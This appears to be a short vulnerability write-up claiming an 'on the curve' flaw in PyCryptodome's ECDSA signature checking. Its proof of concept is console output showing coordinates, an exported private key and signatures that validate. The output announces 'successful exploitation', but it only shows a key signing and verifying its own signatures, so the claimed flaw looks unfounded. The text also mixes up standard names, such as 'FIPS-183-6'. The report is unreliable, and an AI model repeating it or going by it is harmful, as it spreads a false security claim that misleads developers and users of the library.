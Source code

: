 # ECC On The Curve Vulnerability

## Exploiting ECDSA Signatures

### Issue:

ECDSA signatures will improperly validate spoofed keys with forced public keys. In this proof-of-concept ECDSA keys are generated with ```length = len(x+y) ``` and ```d = random(length)-(x+y)``` to exploit PyCryptodomes ECDSA implementations.

- https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Signature/DSS.py
- https://www.rfc-editor.org/rfc/rfc6979
- https://csrc.nist.gov/csrc/media/publications/fips/186/3/archive/2009-06-25/documents/fips_186-3.pdf

### Proof of Concept:

```
 python .\ECCTool.py
X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
D: 27362011191244522599400977620412273256865510408751044570755755486992953037333842464164901064989290490254223630055135
------------------------------------------------------------------------------
Spoofed X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
X matches
Spoofed Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
Y matches
------------------------------------------------------------------------------
Exporting Key
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCxxkp6uxcwPfu7QYSd
qjki7PEfmzP/jlBgZHLuOWGbzzVwLQN1OHwZzGNJpOiCtt+hZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
------------------------------------------------------------------------------
Testing deterministic-rfc6979 signature
Signature: b'06MvLMpqCepsI43/rUKaQDatG1q7ch+6jT1cpairfqIJNyNtHgCniD01Z6DWCZyjl5o4XX8YIQLZ1gJvz54FRQpt0SuJ2jGuJRzwy80tpJz1UjEpIEAB8q61tFM9WMF0'
deterministic-rfc6979 signature generated
deterministic-rfc6979 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Testing FIPS-186-3 signature
Signature generated
Signature: b'yKQZ+itxNbdgbYMHZ9B0dHYxLtX00qNrmy0xGcwi1ODbEmk344wiQAFGq5mDy3hlD9UyWyy8vb1rQrjPvZKBgMbisnmYSHtZRr0fnGLJW11hFIcd1Cd73D26YWjLOdlo'
FIPS-183-6 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Results for 'On the Curve Vulnerability':
RFC 6979: True
FIPS-186-3: True
```
